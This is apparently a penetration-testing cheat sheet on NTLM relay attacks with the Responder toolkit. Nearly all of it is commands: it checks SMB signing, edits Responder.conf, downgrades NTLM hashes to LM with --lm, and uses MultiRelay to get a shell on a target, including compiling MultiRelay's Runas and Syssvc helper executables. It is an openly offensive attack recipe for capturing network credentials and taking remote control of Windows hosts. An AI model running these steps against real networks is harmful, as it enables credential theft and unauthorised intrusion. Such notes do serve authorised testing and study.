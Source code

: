 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* change `/etc/responder/Responder.conf`
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

![Important]
To keep `SMB` and `HTTP` On in responder.conf
1. Run responder until hashes is received and close
2. Run Multirelay
3. While MultiRelay is running, run again responder

Meterpreter shell:
* see Metasploit.md from this section
